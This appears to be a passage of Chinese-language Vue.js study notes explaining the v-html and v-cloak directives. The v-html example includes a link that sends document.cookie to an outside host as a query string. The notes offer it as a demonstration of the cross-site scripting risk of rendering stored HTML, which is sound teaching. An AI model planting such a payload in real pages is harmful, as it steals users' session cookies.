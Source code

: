 示例：下列示例可以渲染数据属性中存储的HTML，传递页面内cookie到目标地址。

```html
<body>
  <a href="index.html">Back</a>

  <div id="demo">
    <h1>Hello, {{ name.toUpperCase() }}!</h1>
    <div v-html="html1"></div>
    <div v-html="html2"></div>
    <input type="text" v-model="k" placeholder="Input Key">
    <input type="text" v-model="v" placeholder="Input Value">
    <button @click="setCookie">Set Cookie</button>
  </div>

  <script type="text/javascript">
    Vue.config.productionTip = false;

    const x = new Vue({
      el: "#demo",
      data: {
        name: "CrackLewis",
        html1: "<h3>Hello from HTML!</h3>",
        html2: "<a href=javascript:location.href='http://www.baidu.com?'+document.cookie>I think I've found the resource you want!</a>",
        k: "",
        v: ""
      },
      methods: {
        setCookie: function () {
          // 这是一个第三方库函数调用，目的是设置cookie
          docCookies.setItem(this.k, this.v);
        }
      }
    });
  </script>
</body>
```

![[Pasted image 20240121121237.png]]

## v-cloak

作用：该属性没有单独的含义，在网页完全加载后会被移除。配合CSS的属性选择器可以实现在网页加载前对带`v-cloak`属性的元素应用特殊样式的功能（如：不显示）。

> [!info] 官方解释
> **该指令只在没有构建步骤的环境下需要使用。**
> 当使用直接在 DOM 中书写的模板时，可能会出现一种叫做“未编译模板闪现”的情况：用户可能先看到的是还没编译完成的双大括号标签，直到挂载的组件将它们替换为实际渲染的内容。
> `v-cloak` 会保留在所绑定的元素上，直到相关组件实例被挂载后才移除。配合像 `[v-cloak] { display: none }` 这样的 CSS 规则，它可以在组件编译完毕前隐藏原始模板。

示例：
